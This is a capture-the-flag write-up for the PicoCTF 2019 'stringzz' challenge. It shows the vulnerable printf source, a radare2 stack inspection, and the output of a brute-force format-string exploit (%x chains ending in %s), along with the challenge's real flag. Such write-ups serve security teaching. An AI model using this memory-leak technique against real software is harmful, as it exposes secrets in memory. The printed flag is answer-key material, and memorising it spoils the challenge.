

# stringzz | PicoCTF2019

## Problem

Use a format string to pwn this program and get a flag.
  
Hints:
- http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

## Solution

### 1. Check out the source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
 
}
```
The program is pretty straightforward. A line is read using getline(), after which the flag is loaded into memory using fgets. Then a series of 
"printMessage" functions are invoked recursively, with the third one making a call to printf with the input string. Since I have control over the format string passed to printf, I should be able to read the flag from memory. Before I can do this though, I will need to create a test flag.txt file, as there is no error handling on the fopen() function.

### 2. Do some dynamic analysis
This is kinda cheating and not neccesary, but for a sanity check I can run the program in a debugger and see where the flag ends up on the stack so I know how far I need to read with my format string from where my input text is.
```bash
kali@kali:~/Desktop/pctf/stringzz$ r2 -d vuln
Process with PID 2521 started...
= attach 2521 2521
bin.baddr 0x5655e000
Using 0x5655e000
asm.bits 32
glibc.fc_offset = 0x00148
Warning: r_bin_file_hash: file exceeds bin.hashlimit
[0xf7f7d0b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[TOFIX: aaft cant run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7f7d0b0]> afl
0x5655e5b0    1 49           entry0
0x5655e5e2    1 4            fcn.5655e5e2
0x5655e580    1 6            sym.imp.__libc_start_main
0x5655e600    4 58   -> 53   sym.deregister_tm_clones
0x5655e6e9    1 4            sym.__x86.get_pc_thunk.dx
0x5655e640    4 71           sym.register_tm_clones
0x5655e690    5 71           entry.fini0
0x5655e5f0    1 4            sym.__x86.get_pc_thunk.bx
0x5655e5a0    1 6            sym..plt.got
0x5655e6e0    1 9            entry.init0
0x5655e8f0    1 2            sym.__libc_csu_fini
0x5655e914    1 20           sym._fini
0x5655e725    1 57           sym.printMessage2
0x5655e884    1 4            sym.__x86.get_pc_thunk.ax
0x5655e570    1 6            sym.imp.puts
0x5655e6ed    1 56           sym.printMessage3
0x5655e520    1 6            sym.imp.printf
0x5655e890    4 93           sym.__libc_csu_init
0x5655e797    3 237          main
0x5655e510    1 6            sym.imp.getline
0x5655e560    1 6            sym.imp.malloc
0x5655e590    1 6            sym.imp.fopen
0x5655e540    1 6            sym.imp.fgets
0x5655e75e    1 57           sym.printMessage1
0x5655e530    1 6            sym.imp.fflush
0x5655e900    1 20           sym.__stack_chk_fail_local
0x5655e550    1 6            sym.imp.__stack_chk_fail
0x5655e4dc    4 35           sym._init
0x5655e5a8    1 6            fcn.5655e5a8
0x5655e000   56 1253 -> 1341 map.home_kali_Desktop_pctf_stringzz_vuln.r_x
[0xf7f7d0b0]> s sym.printMessage
sym.printMessage3   sym.printMessage2   sym.printMessage1   
[0xf7f7d0b0]> s sym.printMessage3; pdf
            ; CALL XREF from sym.printMessage2 @ 0x5655e750
┌ 56: sym.printMessage3 (int32_t arg_8h);
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_8h @ ebp+0x8
│           0x5655e6ed      55             push ebp
│           0x5655e6ee      89e5           mov ebp, esp
│           0x5655e6f0      53             push ebx
│           0x5655e6f1      83ec04         sub esp, 4
│           0x5655e6f4      e8f7feffff     call sym.__x86.get_pc_thunk.bx
│           0x5655e6f9      81c3bb180000   add ebx, 0x18bb
│           0x5655e6ff      83ec0c         sub esp, 0xc
│           0x5655e702      8d837ce9ffff   lea eax, dword [ebx - 0x1684]
│           0x5655e708      50             push eax
│           0x5655e709      e862feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x5655e70e      83c410         add esp, 0x10
│           0x5655e711      83ec0c         sub esp, 0xc
│           0x5655e714      ff7508         push dword [arg_8h]
│           0x5655e717      e804feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x5655e71c      83c410         add esp, 0x10
│           0x5655e71f      90             nop
│           0x5655e720      8b5dfc         mov ebx, dword [var_4h]
│           0x5655e723      c9             leave
└           0x5655e724      c3             ret
[0x5655e6ed]> db 0x5655e717
[0x5655e6ed]> dc
input whatever string you want; then it will be printed back:

TEST
Now 
your input 
will be printed:

hit breakpoint at: 5655e717
[0x5655e717]> pxr 1000 @esp
0xffcd7860 0x576c95b0  ..lW @esp (TEST
)                                                                                                                                                                        
0xffcd7864 0x0000000a  .... 10
0xffcd7868 0x00000004  .... 4
0xffcd786c 0x5655e6f9  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.text) sym.printMessage3 program R X 'add ebx, 0x18bb' 'vuln'
0xffcd7870 0xf7f59000  ....
0xffcd7874 0x5655ffb4  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.got) program R W 0x1ebc -->  7868
0xffcd7878 0xffcd7898  .x.. @ebp ([stack]) stack R W 0xffcd78b8 -->  ([stack]) stack R W 0xffcd7908 -->  ([stack]) stack R W 0x0 -->  0 section..shstrtab
0xffcd787c 0x5655e755  U.UV (/home/kali/Desktop/pctf/stringzz/vuln) (.text) sym.printMessage2 program R X 'add esp, 0x10' 'vuln'
0xffcd7880 0x576c95b0  ..lW (TEST
)                                                                                                                                                                        
0xffcd7884 0x5655e995  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.rodata) str.flag.txt program R X 'insb byte es:[edi], dx' 'vuln' (flag.txt)
0xffcd7888 0x5655e993  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.rodata) program R X 'jb 0x5655e995' 'vuln'
0xffcd788c 0x5655e731  1.UV (/home/kali/Desktop/pctf/stringzz/vuln) (.text) sym.printMessage2 program R X 'add eax, 0x1883' 'vuln'
0xffcd7890 0xf7f59000  ....
0xffcd7894 0x5655ffb4  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.got) program R W 0x1ebc -->  7868
0xffcd7898 0xffcd78b8  .x.. ([stack]) stack R W 0xffcd7908 -->  ([stack]) stack R W 0x0 -->  0 section..shstrtab
0xffcd789c 0x5655e78e  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.text) sym.printMessage1 program R X 'add esp, 0x10' 'vuln'
0xffcd78a0 0x576c95b0  ..lW (TEST
)                                                                                                                                                                        
0xffcd78a4 0x5655e993  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.rodata) program R X 'jb 0x5655e995' 'vuln'
0xffcd78a8 0x00000001  .... 1
0xffcd78ac 0x5655e76a  j.UV (/home/kali/Desktop/pctf/stringzz/vuln) (.text) sym.printMessage1 program R X 'add eax, 0x184a' 'vuln'
0xffcd78b0 0xf7f59000  ....
0xffcd78b4 0x5655ffb4  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.got) program R W 0x1ebc -->  7868
0xffcd78b8 0xffcd7908  .y.. ([stack]) stack R W 0x0 -->  0 section..shstrtab
0xffcd78bc 0x5655e84d  M.UV (/home/kali/Desktop/pctf/stringzz/vuln) (.text) main program R X 'add esp, 0x10' 'vuln'
0xffcd78c0 0x576c95b0  ..lW (TEST
)                                                                                                                                                                        
0xffcd78c4 0x00000080  .... 128
0xffcd78c8 0x576c9ad0  ..lW
0xffcd78cc 0x5655e7ae  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.text) main program R X 'add ebx, 0x1806' 'vuln'
0xffcd78d0 0xf7f59000  ....
0xffcd78d4 0xf7f8c140  @... (/usr/lib32/ld-2.30.so) library R X 'push ebp' 'ld-2.30.so'
0xffcd78d8 ..[ null bytes ]..   00000000 
0xffcd78dc 0xffcd79b4  .y.. ([stack]) stack R W 0xffcd84dd -->  ([stack]) stack R W 0x75762f2e (./vuln) -->  ascii ('.')
0xffcd78e0 0xf7f593fc  ....
0xffcd78e4 0x5655ffb4  ..UV (/home/kali/Desktop/pctf/stringzz/vuln) (.got) program R W 0x1ebc -->  7868
0xffcd78e8 0xffcd79bc  .y.. ([stack]) stack R W 0xffcd84e4 -->  ([stack]) stack R W 0x4c454853 (SHELL=/bin/bash) -->  ascii ('S')
0xffcd78ec 0x00000078  x... 120 ascii ('x')
0xffcd78f0 0x576c95b0  ..lW (TEST  <----------------- Pointer to the "TEST" text is here
)                                                                                                                                                                        
0xffcd78f4 0x576c9a40  @.lW (flag{Placeholder} <----- Pointer to the flag is here
  [0x5655e717]> px 200 @0x576c9a40
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x576c9a40  666c 6167 7b50 6c61 6365 686f 6c64 6572  flag{Placeholder
0x576c9a50  7d0a 0000 0000 0000 0000 0000 0000 0000  }...............
0x576c9a60  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x576c9a70  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x576c9a80  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x576c9a90  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x576c9aa0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x576c9ab0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x576c9ac0  0000 0000 0000 0000 0000 0000 4101 0000  ............A...
0x576c9ad0  8824 adfb 229c 6c57 229c 6c57 109c 6c57  .$..".lW".lW..lW
0x576c9ae0  109c 6c57 109c 6c57 109c 6c57 109c 6c57  ..lW..lW..lW..lW
0x576c9af0  10ac 6c57 0000 0000 0000 0000 0000 0000  ..lW............
0x576c9b00  0000 0000 809c f5f7                      ........
```
So according to the debugger, the test text is located at 0x576c95b0 and the flag is at 0x576c9a40.
These addresses are fairly close to each other, but re-running the binary multiple times gives different results, and I think this is because of ALSR. However, I think I should be able to try a "brute-force" approach since I know the flag format.

### 3. Construct the attack.
I can create an offline version of the attack first. Basically the way it will work is that I will supply a format string. This format string starts with the value of 0x576c95b0, which is roughly where the pointer to the input text is in memory. Then I provide an ever-increasing number of %x values to move the stack pointer along the stack. Then I provide a %s to print whatever is at that address. I will keep doing this until I hit a string containing the flag format.
A really good explanation of this attack is in the referenced document.
  
When testing this method out online, it seems to work pretty well.
```bash
kali@kali:~/Desktop/pctf/stringzz$ python solve.py
[*] '/home/kali/Desktop/pctf/stringzz/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/kali/Desktop/pctf/stringzz/vuln': pid 3524
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (36B)
[*] Process '/home/kali/Desktop/pctf/stringzz/vuln' stopped with exit code -11 (SIGSEGV) (pid 3524)

Now 
your input 
will be printed:


[+] Starting local process '/home/kali/Desktop/pctf/stringzz/vuln': pid 3527
input whatever string you want; then it will be printed back:

...

[+] Starting local process '/home/kali/Desktop/pctf/stringzz/vuln': pid 3629
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (307B)
[*] Process '/home/kali/Desktop/pctf/stringzz/vuln' stopped with exit code 0 (pid 3629)

Now 
your input 
will be printed:

��lWa4565ef6f9f7f2d000565f0fb4ffeda4d8565ef755568c55b0565ef995565ef993565ef731f7f2d000565f0fb4ffeda4f8565ef78e568c55b0565ef9931565ef76af7f2d000565f0fb4ffeda548565ef84d568c55b080568c66d0565ef7aef7f2d000f7f601400ffeda5f4f7f2d3fc565f0fb4ffeda5fc78568c55b0flag{Placeholder}
```

### 4. Run it on the server to win
```bash
kali@kali:~/Desktop/pctf/stringzz$ python solve.py REMOTE
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/stringzz/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 2068416
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (47B)
[*] Stopped remote process u'vuln' on 2019shell1.picoctf.com (pid 2068416)

Now 
your input 
will be printed:

��lWa��%�\x16
[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 2068420
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (54B)
[*] Stopped remote process u'vuln' on 2019shell1.picoctf.com (pid 2068420)

Now 
your input 
will be printed:

��lWaf7dc43db�û\x18
[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 2068424
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (61B)
[*] Stopped remote process u'vuln' on 2019shell1.picoctf.com (pid 2068424)

Now 
your input 
will be printed:

��lWaf7e183db565886f9lM\x1d

...

[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 2068553
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (36B)
[*] Stopped remote process u'vuln' on 2019shell1.picoctf.com (pid 2068553)

Now 
your input 
will be printed:


[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 2068560
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (372B)
[*] Stopped remote process u'vuln' on 2019shell1.picoctf.com (pid 2068560)

Now 
your input 
will be printed:

��lWaf7d9f3db565b96f9f7f0d000565bafb4ffb6aef8565b9755572fb570565b9995f7d9f3db565b9731f7f0d000565bafb4ffb6af18565b978e572fb570565b9993f7d9d88b565b976af7f0d000565bafb4ffb6af68565b984d572fb57080572fba90565b97aef7f0d000f7f0d0000ffb6b014f7f0d3fc565bafb4ffb6b01c78��lW%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s


[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 2068564
input whatever string you want; then it will be printed back:

[+] Receiving all data: Done (334B)
[*] Stopped remote process u'vuln' on 2019shell1.picoctf.com (pid 2068564)

Now 
your input 
will be printed:

��lWaf7e0e3db5663a6f9f7f7c0005663bfb4ffa122585663a75556b4c5705663a995f7e0e3db5663a731f7f7c0005663bfb4ffa122785663a78e56b4c5705663a993f7e0c88b5663a76af7f7c0005663bfb4ffa122c85663a84d56b4c5708056b4ca905663a7aef7f7c000f7f7c0000ffa12374f7f7c3fc5663bfb4ffa1237c7856b4c570picoCTF{str1nG_CH3353_0814bc7c}
```